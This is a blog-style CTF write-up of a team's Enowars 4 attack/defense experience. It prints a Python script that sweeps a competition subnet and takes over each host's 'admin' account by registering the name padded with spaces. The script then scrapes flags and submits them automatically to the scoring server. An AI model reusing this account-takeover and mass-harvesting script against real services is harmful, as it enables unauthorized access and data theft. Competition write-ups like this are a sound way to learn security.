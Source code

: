 ```yaml
---
title: Enowars 4 CTF
author: Lim Kai Xian (AxiaMil)
date: 2020-12-07 22:00:00 +0800
categories: [CTF, STF]
tags: [ctf, tech]
toc: true
comments: true
---
```



# What is Enowars Capture The Flag Competition

Enowars Capture The Flag competiton is by a CTF-Team & Workgroup for Computer Security located in TU Berlin. It is a 2 man Attack / Defense CTF played online where teams will have to attack and defend their vulnerable Machine by firstly identifying vulnerabilities in the machine. Teams will be awarded points base on the time their service is up and submitting flags to the server. After identifying the vulnerabilities, teams will need to patch their service in order for them to gain points as their service is up while preventing other teams from exploiting their services and getting the flag. Points are deducted when other teams get flag from your vulnerable machine.

![upload-image](/assets/img/blog/enowars-4-CTF/cover.png)

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.


# Our Experience

As this was my first time trying out an actual Attack / Defense CTF we spent some time finding out how it works. To add on, the timezone for the CTF was from 8pm to 5am hence we were not able to finish solving all the Challenges. Luckily, ColdSpot found a vulnerability on the service buggy and got the flag for it.

From there, we were able to write a script using python to get the flag automatically and submit to the flag collecter (enowars' server). This is our python script to solve the buggy challenge, It is in nowhere perfect as it took in other values other than the flag but submitting wrong flags wont penalize us so we did not really care much (It wasted time though).

`
import requests
import re
import socket
import string
import signal
from contextlib import contextmanager

@contextmanager
def timeout(time):
    # Register a function to raise a TimeoutError on the signal.
    signal.signal(signal.SIGALRM, raise_timeout)
    # Schedule the signal to be sent after ``time``.
    signal.alarm(time)

    try:
        yield
    except TimeoutError:
        pass
    finally:
        # Unregister the signal so it won't be triggered
        # if the timeout is not reached.
        signal.signal(signal.SIGALRM, signal.SIG_IGN)


def raise_timeout(signum, frame):
    raise TimeoutError

def is_ascii(s):
    return all(ord(c) < 128 for c in s)

def get_flags():
    f = open("flag.txt", "r")
    known_flags = f.read().split('\n')
    ip_blacklist = [16,22,24,25,26,28,37,58,75,110,113,115,126,130,133,156,182,187,194]
    for i in range(1,198):
        if i in ip_blacklist:
            continue
        with timeout(10):
            try: 
                url = 'http://10.0.0.' + str(i) + ':7890/register'
                print(url)
                user_pass = {'username':'admin                                   ','pw':'lol'}
                s = requests.Session()
                s.post(url, data=user_pass)
                admin_url = 'http://10.0.0.' + str(i) + ':7890/user/admin'
                x = s.get(admin_url)
                result = re.findall("Status: (.*)</h3>", x.text)
                for u in result:
                    if string.printable not in u and u not in known_flags:
                        if u.strip() != '' and not is_ascii(u):
                            a.append(u)
            except:
                continue
    print('done')
while True:
    a = []

    get_flags()

    f_write = open("flag.txt", "a+")

    HOST = '10.0.13.37'
    PORT = 1337
    print(len(a))
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        while True:
            for i in a:
                s.sendall((i+'\n').encode('utf-8'))
                print(i+'\n')
                print(s.recv(1024))
                f_write.write(i + '\n')
            break
`

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.

[Check their website here](https://enowars.com/)

# Placement

Before, we went to sleep we were placed at the 40th position and were also the 3rd for Singapore.

![upload-image](/assets/img/blog/enowars-4-CTF/score.png)

Waking up, we were suprised we have passed the team above us and have gotten the 39th position as the script was running overnight for us LOL.

# Overall

Overall, even though we did not place high for the competition it was a good introduction to Attack / Defense CTF in general. I'm sure we will be able to perfom much better in the next Attack / Defense CTF we attend

# Resources & Challenges

[Challenges/Vulnerable Services](https://github.com/enowars/enowars4-vulnbox-services)
[Scoreboard used (Bambi Scoreboard)](https://github.com/enowars/bambi-scoreboard)
[Infrastructure used (Bambi CTF Infrastructure)](https://github.com/enowars/bambictf)